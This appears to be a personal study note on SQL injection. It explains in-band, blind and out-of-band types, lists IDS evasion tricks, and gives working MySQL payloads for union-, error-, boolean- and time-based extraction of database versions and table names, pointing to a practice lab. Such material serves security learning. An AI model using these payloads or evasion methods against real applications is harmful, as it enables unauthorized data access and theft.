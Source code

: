 ## SQL Injection Attack
`` SQL injection (SQLi) is an application security weakness that allows attackers to control an application’s database – letting them access or delete data, change an application’s data-driven behavior, and do other undesirable things – by tricking the application into sending unexpected SQL commands. ``

## Types of SQL Injection (SQLi)
### In-band SQLi (Classic SQLi) - an attacker is able to use the same communication channel to both launch the attack and gather results.
``Error-based SQLi - relies on error messages thrown by the database server to obtain information about the structure of the database.``

``Union-based SQLi - leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result which is then returned as part of the HTTP response.``

### Inferential SQLi (Blind SQLi) - no data is actually transferred via the web application and the attacker would not be able to see the result of an attack in-band (which is why such attacks are commonly referred to as “blind SQL Injection attacks”)
``Blind-boolean-based SQLi - relies on sending an SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.``

``Blind-time-based SQLi - relies on sending an SQL query to the database which forces the database to wait for a specified amount of time (in seconds) before responding ``

### Out-of-band SQLi -  an attacker is unable to use the same channel to launch the attack and gather results

### Evasion Technique

Use encryption.

Obfuscate string to avoid pattern matching.

Use Concatenation to confuse the IDS.

Use encoding like ASCII encoding, hexadecimal encoding to avoid detection.

Insert inline comments between query.


### [Audi 1 Lab](https://github.com/Audi-1/sqli-labs)
### [Audi 1 Lab Explaination](https://www.youtube.com/playlist?list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)
### [Useful Link](http://index-of.es/Varios-2/Advanced%20SQL%20Injection.pdf)


Union Based

```
order by 
union select
group_concat(table_name) from information_schema.tables where table_schema=database()
group_concat(column_name) from information_schema.columns where table_name='table_name'
group_concat(data) from table_name
```
Error Based
```
# Intro 

SELECT count(*) from information_schema.tables;
SELECT rand();
SELECT floor(1.5);
select 1 from y;
select count(*),username from users group by username;

#Variable
SELECT count(*),CONCAT((SELECT @@version),0x3a,rand()) x FROM information_schema.tables group by x;
SELECT @x;
######
SELECT count(*),CONCAT((SELECT @@version),0x3a,floor(rand()*2)) x FROM information_schema.tables group by x;
SELECT @x;

# Version
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)

# Table
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (table_name) from information_schema.tables where table_schema=database() limit 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)
```
Boolean Based Blind
```
# Intro
select substr('abcde',1,1);
select ascii('a');
select ascii(substr(@@version,1,1));

# True or False
select ascii(substr(@@version,1,1)) < 50;
select ascii(substr(@@version,1,1)) < 40;
select ascii(substr(@@version,1,1)) = 49;

# Testing
1 and 1=1 -> True
1 and 1=2 -> False

# Version
and ascii(substr(@@version,1,1)) = 49 -> First Character
and ascii(substring(version(),2,1)) = 48 -> Second Character

# Table
and ascii(substring((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100
```
Time Based Blind
```
# Intro
SELECT IF(500<1000, "YES", "NO");
sleep(5);
and if(500<1000, sleep(5), NULL) -> Sleep
and if(500>1000, sleep(5), NULL) -> Do Not Sleep

# Version
and if(ascii(substr(version(),1,1)) = 49, sleep(5), NULL)

# Table
and if(ascii(substr((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100, sleep(5), NULL)
```

Cheatsheet
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
```

### Noted by [konova](https://www.facebook.com/kon0va)

### Ref : 
- [acunetix](https://www.acunetix.com/websitesecurity/sql-injection2/)
- [lol Security](https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/06.SQL%20Injection.md)


